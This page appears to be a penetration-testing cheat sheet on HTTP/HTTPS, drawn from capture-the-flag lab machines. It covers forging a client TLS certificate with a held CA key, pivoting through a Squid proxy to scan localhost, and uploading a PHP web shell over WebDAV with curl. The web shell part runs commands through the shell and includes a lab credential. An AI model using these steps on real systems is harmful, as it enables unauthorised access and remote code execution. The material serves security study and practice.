 ```yaml
---
icon: globe-pointer
description: HyperText Transfer Protocol
---
```


# HTTP/HTTPS

{% hint style="info" %}
## <mark style="color:purple;">Generate a</mark> <mark style="color:orange;">`TLS`</mark> <mark style="color:purple;">Certificate</mark>

<mark style="color:orange;">**`With the CA private key already`**</mark>

1. <mark style="color:purple;">Verify Client Certificate Requirements:</mark>

```bash
openssl s_client -connect 10.10.10.131:443
```

2. <mark style="color:purple;">Generate the client's private key:</mark>

```bash
openssl genrsa -out client.key 4096
```

3. <mark style="color:purple;">Create a</mark> <mark style="color:orange;">**`certificate signing request (CSR)`**</mark> <mark style="color:purple;">, ensure the fields match the server's expectations:</mark>

```bash
openssl req -new -key client.key -out client.req
```

4. <mark style="color:purple;">Sign the</mark> <mark style="color:orange;">**`CSR`**</mark> <mark style="color:purple;">with the</mark> <mark style="color:orange;">**`CA’s private key`**</mark> <mark style="color:purple;">to issue a</mark> <mark style="color:orange;">**`client certificate`**</mark> <mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```bash
openssl x509 -req -in client.req -CA lacasadepapel-htb.pem -CAkey ca.key -set_serial 101 -extensions client -days 365 -outform PEM -out client.cer
```
{% endcode %}

5. <mark style="color:purple;">Convert the private key and certificate into a</mark> <mark style="color:orange;">**`PKCS#12 (.p12)`**</mark> <mark style="color:purple;">format file for easy import:</mark>

```bash
openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`Squid`</mark> <mark style="color:purple;">Proxy</mark>

* <mark style="color:purple;">The config file normally lives in</mark> <mark style="color:orange;">**`/etc/squid/squid.conf`**</mark>
* <mark style="color:purple;">Relays on</mark> <mark style="color:orange;">**`/usr/lib/squid/basic_ncsa_auth`**</mark> <mark style="color:purple;">for authentication and the program stores the passwords in</mark> <mark style="color:orange;">**`/etc/squid/passwords`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Check if you can reverse it to access the local network.</mark>
* <mark style="color:purple;">First add the address and port to the last line of your</mark> <mark style="color:orange;">**`proxychain.conf`**</mark> <mark style="color:purple;">file:</mark>

```
http 10.10.10.67 312
```

* <mark style="color:purple;">Then, just</mark> <mark style="color:orange;">**`nmap`**</mark> <mark style="color:purple;">the</mark> <mark style="color:orange;">**`localhost`**</mark><mark style="color:purple;">:</mark>

```sh
proxychains nmap -n -sT 127.0.0.1
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">**`WebDAV`**</mark>

_<mark style="color:purple;">**Web Distributed Authoring and Versioning**</mark>_<mark style="color:purple;">, an extension of the</mark> <mark style="color:orange;">**`HTTP`**</mark> <mark style="color:purple;">protocol that allows users to collaboratively edit and manage files stored on a remote server.</mark>

* <mark style="color:purple;">Extends HTTP methods like</mark> <mark style="color:orange;">**`GET`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">with additional ones like</mark> <mark style="color:orange;">**`PROPFIND`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`PROPPATCH`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`MKCOL`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`DELETE`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`COPY`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`MOVE`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`LOCK`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Credentials can be found at</mark> <mark style="color:orange;">**`webdav.passwd`**</mark><mark style="color:purple;">**.**</mark>
* [<mark style="color:orange;">**`devtest`**</mark>](https://github.com/cldrn/davtest) <mark style="color:purple;">can be use for enumeration.</mark>

***

{% code title="Upload files" overflow="wrap" %}
```sh
curl --upload-file ./file.php --user <UserName>:<Password> http://10.10.10.67/webdav_test_inception/
```
{% endcode %}

{% code title="Run commands from revshell" overflow="wrap" %}
```sh
curl --data-urlencode 'cmd=id' http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/file.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}

{% code title="Enumeration" overflow="wrap" %}
```sh
davtest.pl -url http://10.10.10.67/webdav_test_inception -auth <UserName>:<Password>
```
{% endcode %}
{% endhint %}

